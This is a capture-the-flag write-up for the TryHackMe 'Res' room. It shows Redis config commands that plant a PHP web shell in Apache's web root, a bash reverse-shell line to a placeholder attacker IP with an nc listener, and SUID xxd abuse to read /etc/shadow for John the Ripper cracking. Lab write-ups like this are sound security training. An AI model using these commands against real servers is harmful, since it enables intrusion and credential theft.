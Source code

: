 ```yaml
---
title: Res CTF Write Up (2023)
date: 2023-10-17
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

According to its [official documentation](https://redis.io/docs/about/):

>*Redis is an open source, in-memory data structure store used as a database, cache, message broker, and streaming engine.*

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see an Apache web server listening to port 80, although, this is does not seem like the right answer to the question.

The default command, that is without any port specification, scans the **most common 1,000 ports for each protocol** ([documentation](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).)), so we can try scanning for all ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **redis** server listening on port 6379 appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if the database requires authentication or not. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis info. 

So, let's try all that:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. By following the article's steps, and using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog (note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!):
 ```shell
 # define the path of Apache's default directory
 config set dir /var/www/html/
 # create a "subdirectory" to host our reverse shell 
 config set dbfilename webshell.php
 # our reverse shell code
 set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
 # save our configuration
 save
 ```
 2. Open a listener to our machine:
 ```shell
 nc -lnvp 12345
 ```
 3. Visit the newly-created server's subdirectory: http://\<target-ip\>/webshell.php
  
 ![rce_setup](rce_setup.png)
 
Success 🎊! With our initial foothold established, let's search for `user.txt`:

![flag1](flag1.jpg)

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, but we saw it again while getting our first flag `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root flag 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's crack on 🏃! We need to make sure to either be on `xxd`'s directory, `cd /usr/bin/`, or provide the full path, `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough. Let go for some hash cracking now 🔒!

### 3.4 Hash Cracking with John The Ripper

Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

![xxd_shadow](xxd_shadow.png)

We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

![passwd](passwd.png)

Now, all we have to do is to unshadow the files and let `john` do the work for us:

![john](john_vianka.jpg)

And that's us done 🍻!